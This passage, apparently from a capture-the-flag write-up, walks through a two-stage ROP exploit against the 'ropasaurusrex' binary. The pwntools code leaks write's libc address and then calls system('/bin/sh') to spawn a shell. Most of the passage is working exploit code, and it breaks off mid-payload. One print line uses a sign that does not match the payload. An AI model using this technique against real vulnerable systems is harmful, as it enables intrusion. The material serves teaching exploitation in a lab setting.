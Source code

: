 ```python
# STAGE 1
# writing to stdout the address of write, and returning
# a gadget that cleans write's arguments off the stack in order
# to call again the main.
params = [
    e.plt['write'],
    cleaner,
    1,
    e.got['write'],
    4,
    main_addr	# return address, we'll make the binary start again
]							# from the beginning of the main to complete the exploit
exploit = b''
exploit += padding
for p in params:
    exploit += p32(p)
input("[1st stage] press any key to send...")
r.send(exploit)
leak = r.recv()
leak = unpack(leak, 'all', endian='little', sign=False)
sysaddr = leak - write_sys_offset
print('address of system: ' + str(hex(sysaddr)))
```

On top of the stack we have the pointer of the write, the return address (`CCCC`, for now we do not need it), and its parameters. The code above, when assembled into shellcode and executed, will execute a `write` syscall, which will write to `stdout` the address of the `write` itself. How did we tell to the `write` what to print? We passed as argument in the stack (remember x86 calling convention, which unlike x64 uses the stack instead of the register for function arguments) the address of `write` in the `GOT` table, which at runtime corresponds to the address of the same function but in `libc`. This means that since we know the offset of the `write` inside the library, we can compute `libc` base to know the address of `system`, which is the function that we'll use to spawn a shell.

**Note about cleaner gadget**

```python
e = ELF('./ropasaurusrex')
rop = ROP(e)
libc = ELF("./libc-2.27.so")
write_sys_offset = libc.symbols["write"] - libc.symbols["system"]
binsh_sys_offset = libc.symbols["write"] - next(libc.search(b"/bin/sh"))
cleaner = (rop.find_gadget(['pop esi','pop edi','pop ebp','ret']))[0]
```

This gadget will remove the arguments that we put in the stack to correctly execute the call. It is necessary if we want to execute a `ROP` chain.

#### spawning a shell

```python
# STAGE 2
# now we will do another rop, but this time
# we will call system with /bin/sh as argument
# binsh is already present in the binary, I found
# its offset using pwntools

print('address of /bin/sh: ' + str(hex(leak+binsh_sys_offset)))
params = [
    sysaddr,
    b'CCCC',
    leak - binsh_sys_offset
]

exploit = b''
exploit += padding
for p in params:
```
